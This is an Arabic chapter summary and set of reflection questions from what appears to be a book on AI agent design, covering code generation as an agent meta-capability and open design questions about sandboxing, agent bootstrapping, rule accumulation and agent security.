توصل قسم هندسة البرمجيات إلى نتيجة مركزية واحدة: وكلاء البرمجة ناضجون ليس لأن نماذج توليد التعليمات البرمجية قوية بشكل استثنائي، ولكن لأن عقودًا من البنية التحتية المتراكمة لهندسة البرمجيات - مجموعات الاختبار وأنظمة الكتابة والتحكم في الإصدار - تشكل بشكل طبيعي أداة قوية. يستحق هذا الاستنتاج السفر إلى سيناريوهات الوكلاء الأخرى. يقدم القسم الخاص بالفشل واسترداد الأخطاء الجانب الآخر من نفس الموضوع: لا يتم تحديد موثوقية الوكيل من خلال ما إذا كان النموذج يرتكب أخطاء، ولكن من خلال ما إذا كان لكل فئة من حالات الفشل مسارًا مطابقًا للكشف والاسترداد والإنهاء.

وأظهر الجزء الثاني القيمة الواسعة لتوليد التعليمات البرمجية خارج نطاق البرمجة، بما يتوافق مع الأبعاد الستة في النص الرئيسي:

- **أداة التفكير**: الاستفادة من الحساب الرمزي وحل القيود للتعويض عن أوجه القصور في التفكير الاحتمالي
- **قيود قواعد العمل**: التعبير عن قواعد العمل بشكل لا لبس فيه وتوفير دعم السلامة الحتمية للعمليات التي لا رجعة فيها، حيث تتجاوز قيمة الضمان تكلفة التنفيذ بكثير
- **إنشاء الوسائط المتعددة**: إنشاء محتوى متعدد الوسائط مثل عروض PPT ومقاطع الفيديو من خلال آلية المقترح والمراجع
- **محول النظام**: متابعة تطور التنسيق تلقائيًا لتحقيق الأتمتة الكاملة لتحليل السجل وتشخيص المشكلات
- **واجهة المستخدم التوليدية**: إنشاء النماذج والمرئيات بشكل ديناميكي وحتى استكمال التطبيقات القابلة للتخصيص، والتحرر من قيود النص العادي
- **Agent Bootstrapping**: استخدام التعليمات البرمجية لإصلاح الوكلاء الحاليين وإنشاء وكلاء جدد، مما يؤدي في النهاية إلى تمكين الوكيل من إنشاء وكلاء آخرين

تتلخص قيمة التعليمات البرمجية بالنسبة للوكيل في ما يلي: إنها في الوقت نفسه وسيلة لإنجاز المهام وآلية لتجميع المعرفة وإنشاء الأدوات وتحسين نفسها - وهي "قدرة وصفية" حقيقية.

حتى هنا جمعنا السياق والمعرفة والأدوات والقدرة على كتابة الشيفرة في البنية الأساسية لـ Agent عام الغرض، وكان توليد الشيفرة أكثر هذه القدرات الفوقية عمومية. لكن الفصول الخمسة الأولى ما زالت تفترض أن Agent والعالم يتناوبان على الفعل. ويضيف الفصل السادس القطعة الأخيرة من قسم «بناء Agent»، إذ يوسّع فضاءي الملاحظة والفعل ليشملا الأحداث غير المتزامنة والصوت والشاشات والعالم المادي؛ وبعد اكتمال هذه الخطوة ينتقل الفصل السابع إلى التقييم والتحسين المستمر.

## أسئلة للتأمل

1. ★★ يُطلق على إنشاء التعليمات البرمجية اسم "القدرة الوصفية" الخاصة بالوكيل. لكن تنفيذ التعليمات البرمجية يؤدي إلى مخاطر أمنية - قد تحتوي التعليمات البرمجية التي ينشئها الوكيل على ثغرات أمنية، أو تدخل في حلقات لا نهائية، أو تستنفد الموارد. يمكن أن يؤدي وضع الحماية إلى تخفيف بعض هذه المخاطر، ولكنه يحد أيضًا من ما يمكن أن تفعله التعليمات البرمجية، على سبيل المثال، عن طريق رفض الوصول إلى الشبكة أو نظام الملفات. كيف يمكن إيجاد التوازن الأمثل بين الأمن والقدرة؟
2. ★★★ يتيح تشغيل الوكيل - وهو وكيل يمكنه إنشاء وكلاء - إمكانية "إعادة إنتاج الذكاء ذاتيًا". لكن كل تكرار للتمهيد قد يؤدي إلى تحيزات أو أخطاء جديدة. فهل تتراكم هذه الأخطاء عبر الأجيال؟ كيف يمكن منع التدهور في عملية تمهيد الوكيل؟
3. ★★ عندما يتولى وكيل إنشاء التعليمات البرمجية تحليل السجل، يمكنه متابعة تطور التنسيق تلقائيًا. ولكن إذا كان تغيير التنسيق عبارة عن خطأ وليس تعديلًا مقصودًا، فقد تؤدي قدرة الوكيل على التكيف إلى إخفاء المشكلة بدلاً من ذلك. كيف ينبغي للوكيل التمييز بين "التغيير الذي يتطلب التكيف" و"الشذوذ الذي يتطلب الإبلاغ عنه"؟
4. ★★ يستخدم هذا الفصل بشكل متكرر آلية مقدم العرض والمراجع في إنشاء PPT وتحرير الفيديو وتصور السجل. إذا كانت التفضيلات الجمالية للمحكم تختلف عن تلك الخاصة بالمستخدم المستهدف - على سبيل المثال، إذا اعتبر المحكم كثافة المعلومات معقولة ولكن المستخدم وجدها مزدحمة للغاية - فقد تتقارب حلقة التغذية الراجعة مع المستوى الأمثل المحلي الخاطئ. كيف يمكن دمج تعليقات تفضيلات المستخدم في حلقة المراجع؟
5. ★★ يوضح هذا الفصل عدة طرق لوكيل البرمجة لدمج الخبرة المكتسبة من خلال التنفيذ وتصحيح الأخطاء مرة أخرى في قاعدة التعليمات البرمجية - كتابة ملفات قاعدة المعرفة، وتحديث وثائق الهندسة المعمارية، والحفاظ على ملفات تعليمات المشروع، وترميز التسلسلات التشغيلية كرمز. إذا تم تحويل هذه التجربة إلى قواعد في موجّه النظام، فستستمر مجموعة القواعد في التوسع بمرور الوقت. كيف يمكن تنفيذ "جمع البيانات المهملة" على القواعد المتراكمة لتحديد وإزالة الإدخالات الزائدة أو القديمة؟ لماذا لم يعد تعديل الكود الناجح الوحيد تطورًا مستمرًا بالمعنى الوارد في الفصل التاسع؟
6. ★ "الفرق الصديقة للعمل عن بعد غالبًا ما تكون أيضًا صديقة لوكلاء الذكاء الاصطناعي." ما مدى قرب فريقك أو مؤسستك من أن تكون "جاهزة للذكاء الاصطناعي" فيما يتعلق بتوثيق المعرفة؟ ما هو العائق الأكبر؟
7. ★★★ اقترح سايمون ويليسون "الثالوث المميت" للعملاء - الوصول إلى البيانات الخاصة، والتعرض لمحتوى غير موثوق به، وقدرة الاتصال الخارجي. ويضيف هذا الفصل عنصرا رابعا: الذاكرة الدائمة. كيف يمكنك تصميم استراتيجية أمنية لبيئة الإنتاج التي يجب أن تتعامل مع الأربعة في وقت واحد؟
8. ★★ يسمح النمط الاصطناعي للوكيل بإنشاء تعليمات برمجية SQL أو تعليمات برمجية مرئية للتنفيذ المباشر بواسطة الواجهة الأمامية، متجاوزًا الحاجة إلى LLM لمعالجة كميات كبيرة من البيانات. ما هي مزايا وعيوب تقسيم العمل هذا - "يقوم الوكيل بإنشاء التعليمات البرمجية، والنظام ينفذ التعليمات البرمجية" - مقارنة بالنمط التقليدي الذي يقدم فيه الوكيل الإجابة مباشرة؟ وعلاوة على ذلك، SQL التي تم إنشاؤها قد تؤدي إلى عمليات مدمرة، وقد يحتوي HTML الذي تم إنشاؤه على ثغرات أمنية. كيف يمكن ضمان أمن النظام؟
9. ★★ تشفير قواعد العمل كعمليات تحقق ضد الحقيقة الأساسية لقاعدة البيانات، أثناء استخدام تصميم المعلمات لتوجيه النموذج للتحقق من شروط السياسة قبل إجراء مكالمة، يستخدم بشكل أساسي بنية التعليمات البرمجية لتقييد سلوك الوكيل. ما هي مزايا وقيود نمط "الرمز كقواعد" مقارنة بالقواعد المعبر عنها باللغة الطبيعية؟
